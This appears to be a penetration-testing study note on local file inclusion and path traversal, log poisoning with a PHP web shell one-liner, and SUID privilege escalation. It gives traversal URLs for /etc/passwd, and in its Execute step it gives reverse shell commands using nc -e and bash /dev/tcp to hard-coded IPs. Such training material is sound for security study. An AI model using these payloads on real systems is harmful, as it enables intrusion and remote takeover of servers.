 

# File Inclusion Attacks

## Locate

1. Examine the URLs of pages on the website.  Look for pages with parameters in the URL, which will be preceded with a `?` or an `&`.  
   Example: http://www.site.com/index.php?param1=page.php&param2=somevalue
2. Some parameters only pass text while others specify pages to include.  The most likely candidates for a path traversal vulnerability will be parameters that are loading a file with an extension.  
3. Test likely parameters by loading known files like `/etc/passwd`.  Remember to prepend this path with `../` to override the current working directory.  It's usually safest to just spam the path with `../` because you can't have too many prepended.
   Example: http://www.site.com/index.php?param1=../../../../../../../etc/passwd

### Web Scanning

Web scanners simply take a wordlist and append it to the end of the specified URL, trying to load the URL and checking the response.   You should always scan web servers to see if there are any unlinked, hidden folders or files.

Wordlists may contain filenames (ex: `file.txt`) and folders.  Understand that the scanner takes whatever is in the wordlist and appends it to the URL to scan. 

By default, dirb scans recursively, which means every folder it finds initiates another full scan of the folder.  A basic scan of one folder (without recursion) can be started with this:

```bash
# Uses /usr/share/dirb/wordlists/common.txt by default
dirb http://IP-OR-HOSTNAME/PATH
```

Alternate wordlists can be specified as well:

```bash
# Specify another wordlist
dirb http://IP-OR-HOSTNAME/PATH -w PATH_TO_WORDLIST
```

## Inject

There are multiple ways to inject code into a system.  If file uploads are available, you can simply upload a file with the code, but this is rare.  Generally, on-system log files are 'poisoned' with malicious code and those log files are loaded to make the code execute.

1. After discovering a path traversal vulnerability, refer to the enumerated services on the server to discover any log files that may exist.  

2. Use Google to discover the default location of log files.  Most applications include a set of log files such as access and error logs.

3. Use the path traversal to try to load these log files to make sure you can access them.

4. Choose a log file that you can add data to by interacting with the server.  Likely candidates are access logs or auth logs, which will capture the text a client sends to the server.

5. Determine what programming language the web server uses.  Apache general uses PHP while Microsoft IIS uses asp or aspx.  You can also examine the URLs to find extensions that will point you to the language the site uses.

6. Determine what you want to run on the site.  Below is a good block of code to use, which adds a `cmd` parameter to the page that loads it.  You can set this parameter to any command and it will be run.
   *Note: Always surround the code with unique markers to make it easier to find in the logs.*

   ```bash
   [CNM352] <?php echo shell_exec($_GET['cmd']);?> [CNM352]
   ```

7. Find a way to insert this into the log file that preserves the code formatting.  This can be the tricky part and may require some trial and error.  Ways to insert it may include:

   1. Through the URL of the web browser.  This will typically automatically convert it to URL encoding but the log file may or may not convert it back to the original format

   2. Through CURL.  This may have issues with the code because of the special characters.

   3. Through Burp Suite.  This option may be the easiest, as you can just edit the URI in the get request and set it to the code.  Burp will send that exactly as-is to the server and should bypass any URL encoding requirements.

8. Reload the log file and look for the markers.  The code will not appear because the page will render it, but if the markers made it in, the code should be there.

## Execute

1. Reload the poisoned file.  If using the code above, specify in the URL a command to run by assigning it to the cmd parameter:
   http://www.site.com/index.php?param1=../../../../../../../mylog.log&cmd=My Command

2. Of the command contains any of the special characters shown below, you may need to encode the command in URL encoding.  Use the 'Encoding' tab of Burp Suite to do this easily, then paste the encoded text after the `cmd=` to run it.
   ![image-20220426000425862](.9.File-Inclusion.assets/image-20220426000425862.png)

3. You can insert reverse shell commands using this cmd parameter as well:

   ```bash
   # If netcat is present
   nc -nv 10.250.226.250 8000 -e /bin/sh
   
   # If netcat is not present
   bash &>/dev/tcp/10.10.14.37/8000 <&1
   ```

# SUID Privilege Escalation

SUID allows a user to run a file as the owner of the file.  For files owned by root, this could present an opportunity for privilege escalation.

1. After gaining shell access, enumerate the system for SUID binaries.  This can be done with an enumeration script to get ideas of which ones are good candidates or it can be done manually with the command: 

   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

2. Search this site for SUID binaries to see if any provide a privilege escalation path:
   [https://gtfobins.github.io](https://gtfobins.github.io/)

<u>NOTES ON GTFO</u>

- Most of the examples on GTFO create a copy of the binary in the local folder and execute it from the same folder, however, in most cases you will be working with the file in the original location.  So if they preface the binary with `./`, you should omit that so that Linux will run it from the original location (since that file allegedly already has SUID set).
- Be sure to try other commands besides what is listed in the SUID section.  Sometimes you can run the commands listed in the sudo section even if you don't use sudo.
- If GTFO identifies a binary as able to escalate privileges with SUID but the commands fail, do some Googling to find other examples of PrivEsc with your SUID binary.

